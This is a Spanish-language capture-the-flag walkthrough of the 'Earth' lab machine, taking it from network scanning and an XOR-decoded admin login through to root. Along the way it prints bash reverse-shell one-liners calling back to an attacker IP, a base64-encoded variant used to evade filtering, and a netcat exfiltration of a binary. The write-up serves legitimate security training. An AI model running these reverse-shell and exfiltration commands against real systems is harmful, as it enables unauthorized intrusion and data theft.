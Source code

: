 - Comenzamos obteniendo la ip de nuestra maquina para buscar las IP dentro de la red y encontrar la maquina victima.
```
ifconfig 
```

- Con " netdiscover " buscaremos los dispositivos conectados al segmento de red de nuestro equipo
	```
	sudo netdiscover -r 192.168.1.0/24
	```

- Con " nmap " buscaremos los puertos y las versiones de los servicios que consumen estos puertos para el análisis de vulnerabilidades.
	```
	sudo nmap -sV -A -T5 192.168.1.28
	```
	- Encontramos los puertos abiertos:
		- 22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
		- 80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
		- 443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)

- Revisando la pagina web el código fuente, NO encontramos nada que nos pueda ayudar
- ![[web.png]]

- Por lo que realizaremos una enumeración de directorios utilizando " dirb ":
	```
	sudo dirb http://192.168.1.28/
	```
	- El cual nos deja un directorio al descubierto " http://192.168.1.28/cgi-bin/ ", el cual si entramos nos muestra que no tenemos permisos.
		- ![[forbidden.png]]

- En nmap encontramos un certificado ssl por el puerto 443 por lo que procedemos configurar la resolución del DNS.
- Entramos a " /etc/hosts/ " con " nano " y configuramos para la IP de la maquina
	```
	sudo nano /etc/hosts/
	```
	
	```
	192.168.1.28 earth.local
	192.168.1.28 terratest.earth.loca
	```

	- Verificamos la web " erath.local " y nos muestra la paguina
		- ![[earth.png]]


- Utilizando " dirb http://earth.local/ " obtenemos los siguiente:
	- http://earth.local/admin
	- http://earth.local/cgi-bin/
- Utilizando " dirb https://terratest.earth.local/ ":
	- https://terratest.earth.local/cgi-bin/
	- https://terratest.earth.local/index.html
	- https://terratest.earth.local/robots.txt

- Revisando el " robot.txt " encontramos lo siguiente:
	- ![[robot.png]]
	- Donde revisando la parte de abajo del " robot.txt " vemos que existe " /testingnotes.* "
	- ![[testingnotes.png]]
	- La nota nos comenta que usan " XOR " como algoritmo de encriptación.
	- Nos dan una txt " testdata.txt " que se usan para las pruebas.
	- Y nos dan el nombre del aministrador del portal  " terra "

- Entramos a revisar " testdata.txt " para ver lo que contiene:
	- ![[testdata.png]]

- Nos decian que " testdata.txt " se usaba para las pruebas:
	- According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
- Con " cyberChef " vamos a ir probando cada mensaje de encriptación que nos muestra la paguina, utilizando la key que contiene " testdata.txt ".
	- ![[test.png]]
	- ![[cyberchef.png]]
- Nos damos cuenta que la palabra se repite " earthclimatechangebad4humans "

- Ya podemos hacer prueba de logueo " http://earth.local/admin/login "
	- Tenemos usuario y contraseña:
		- terra
		- earthclimatechangebad4humans
	- Nos manda la siguiente pantalla:
		- ![[commandtool.png]]

- En esta pantalla vemos que podemos insertar comandos por lo que podemos hacer una shellrevers para crear una conexión remota.
- Utilizando " shells " https://github.com/4ndr34z/shells podremos automatizar la creación de shells para la conexión remota.
- INSTALACIÓN:
	- git clone https://github.com/4ndr34z/shells
	- cd shells
	- ./install.sh
- EJECUCIÓN:
	- PASO 1: elegimos " 3) BASH " para crear un script en bash
		- ![[paso1.png]]
	- PASO 2: Aquí pondremos la IP de la maquina atacante y el puerto por donde se comunicara con la maquina victima, y elegimos la opción " 1) NORMAL ".
		- ![[paso2.png]]
	- PASO 3: elegimos la opción " 1) No encoding TCP "
		- ![[paso3.png]]
	- PASO 4: elegimos la opción " 1) rlwrap nc tcp " y le colocamos " n " para que la sesión este en la misma terminal.
		- ![[paso4.png]]
	- PASO 5: ahora estamos listos en mandar el script de conexión remota al CLI de la victima.
		- sh -i >& /dev/tcp/192.168.1.113/443 0>&1
		- ![[paso5.png]]
		- Vemos que no nos permite la conexión remota:
			- ![[NOconecction.png]]
		- Por lo que vamos a tener que cifrar y decifrar el script.
		- echo 'sh -i >& /dev/tcp/192.168.1.113/443 0>&1' | base64
			- c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMy80NDMgMD4mMQo=
		- Quedaria de la siguiente manera:
			- echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMy80NDMgMD4mMQo=' | base64 -d | bash
		- ![[cli_conexión.png]]
		- Revisamos la conexión y vemos que ya entramos:
			- ![[sistem.png]]
- Hora posemos buscar las flags del reto:
	- FLAG-USER:
		- ![[flagUSER.png]]
	- FLAG-ROOT:
		- Usando una busqueda de permisos de archivos root: 
		- find / -perm -u=s -type f 2>/dev/null
		- ![[fileroot.png]]
		- Revisamos todos los archivos el " reset_root " parece algo extraño por lo que procedemos a verificarlo y ejecutarlo.
		- Para ello lo enviaremos a nuestra maquina atacante por medio de " netcat "
		- Abrimos una  nueva terminal y ejecutamos:
		- " nc -lvnp 3333 > reset_root  "
		- ![[netcat_root.png]]
		- Y en la maquina victima ponemos:
		- " cat /usr/bin/reset_root > /dev/tcp/192.168.1.113/3333 "
		- Se descarga el archivo en la ruta actual:
		- ![[netcat_root.png]]
	- LE DAMOS PERMISOS AL " reset_root ":
		- ``` chmod +x reset_root ```
	- EJECUTAMOS:
		- ``` ltrace ./reset_root ```
		- ![[ltrace.png]]
	
- NOS REGRESAMOS A LA MAQUINA VICTIMA PARA CREAR ESOS ARCHIVOS QUE NOS FALTAN

```
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```

- UNA VES CREADO LOS ARCHIVOS EN LA MAQUINA VICTIMA, PROCEDEMOS A EJECUTAR OTRA VES " reset_root " PARA RESTABLECER LAS CREDENCIALES DEL USER-ROOT.

```
reset_root
```

- Y LA CONTRASEÑA ROOT SE RESTABLECE A  " Earth "
	- ![[pass-root.png]]

- INICIAMOS SESIÓN COMO ROOT:
	- ![[root.png]]

- BUSCAMOS LA FLAG DEL ROOT QUE NOS FALTA:

```
cat /root/root_flag.txt
```

- ![[flag-root.png]]



